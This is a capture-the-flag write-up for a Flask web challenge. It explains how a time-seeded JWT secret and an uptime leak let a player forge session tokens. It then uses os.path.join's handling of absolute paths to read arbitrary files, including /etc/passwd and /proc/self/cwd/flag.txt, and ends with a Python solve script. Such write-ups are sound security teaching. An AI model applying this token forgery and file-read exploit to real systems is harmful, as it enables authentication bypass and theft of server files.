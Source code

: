 <h1>Random - Web</h1>

# Random (Web)

DESCRIPTION
I've only had the time to make the API, but it should be working properly. Please make sure it's secure. If you can read any file you want, I'll make sure to reward you!

## Solution
The challenge is a Flask server that uses `round(time.time())` as its seed. 
So if we can have that we can sign our own jwts. It also gives us a leak of when the server was started:
```python
except:
    abort(Response(f'<h1>NOT AUTHORIZED</h1><br><br><br><br><br> This system has been up for {round(time.time()-time_started)} seconds fyi :wink:', status=403))
```

Solution:
The solution relies on the fact that we can get the correct jwt and that `os.path.join()` has a peculiarity that
 if an absolute path is provided it directly just returns that path without joining anything.

We can get the time started by sending a jwt signed incorrectly such that we get the time the system has been up for.
We can substract that from the current time `print(round(time.time()))` and correcting for delays with the offset we can get the correct jwt and read files.
Then I just read the /etc/passwd to get the random directory name and then directly then read the flag using /dir/flag.txt.
But the intended approach is just to pass `'filename': '/proc/self/cwd/flag.txt'` which gives the flag without having to know the directory.

<h2>Solve.py:</h2>

```
import requests
import os
import time
import hashlib
import jwt
import os


def encode_user(secret):
    encoded_data = jwt.encode(payload={"userid": 0},
                              key=secret,
                              algorithm="HS256")
    return (encoded_data)

print(round(time.time()))
for offset in range(-3, -2, 1):
    time_started = 1715968499 - 30 + offset 
    APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
    jwt_token = encode_user(APP_SECRET)
    print(jwt_token)
    # Define the headers with the JWT token
    headers = {}

    # Define the cookies
    cookies = {
        'session': jwt_token,
    }
    time_started = round(time.time())

    args = {
        
	#	'filename': '/etc/passwd'
        'filename': '/93db50a4598e8eb03fbdca154329e9b8/flag.txt'
    }

    response = requests.get(
        'https://random.chal.cyberjousting.com/api/file', headers=headers, cookies=cookies, params=args)
    print(response.text)
```